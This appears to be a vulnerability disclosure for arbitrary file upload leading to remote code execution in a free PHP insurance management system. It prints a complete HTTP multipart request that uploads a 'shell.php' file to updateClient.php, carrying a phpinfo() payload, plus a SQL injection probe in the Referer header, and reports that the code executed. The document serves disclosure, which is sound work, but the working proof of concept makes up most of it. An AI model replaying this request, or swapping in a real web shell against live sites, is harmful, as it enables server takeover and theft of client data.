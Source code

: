# Insurance Management System v1.0 by oretnom23 has arbitrary code execution (RCE)

vendor: https://itsourcecode.com/free-projects/php-project/insurance-management-system-project-in-php-free-download/

Vulnerability url: http://ip/insurance/editClient.php?client_id=1511986129;http://ip/insurance/updateClient.php

Vulnerability file:\ insurance\ updateClient.php

Loophole location： Arbitrary file upload vulnerability exists in Website Cover upload point in system info (RCE)

Request package for file upload：

```sql
POST /insurance/updateClient.php HTTP/1.1
Host: 192.168.1.19
Content-Length: 1460
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.19
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryueZa8WTcFxYpFdQj
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.19/insurance/editClient.php?client_id=1511986129%27%20and%20length(database())%20=4%20--+
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=nur494rnipq7uvtdrinjesc2ja
Connection: close

------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="fileToUpload"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="client_id"

1511986129
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="client_password"

123
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="name"

Aemon Task
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="sex"

Male
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="birth_date"

10-09-1970
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="marital_status"

Married
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="nid"

46814518451
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="phone"

54189465100
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="address"

Dhaka
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="policy_id"

1
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="agent_id"

555
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="submit"

UPDATE
------WebKitFormBoundaryueZa8WTcFxYpFdQj--
```

The files will be uploaded to this directory \insurance\uploads\

![image](https://user-images.githubusercontent.com/54017627/166144182-596c7e4f-9347-4219-9b6f-15730b562968.png)


We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/166144158-92de3642-3dcb-4f12-afb3-4cf8c236ce21.png)

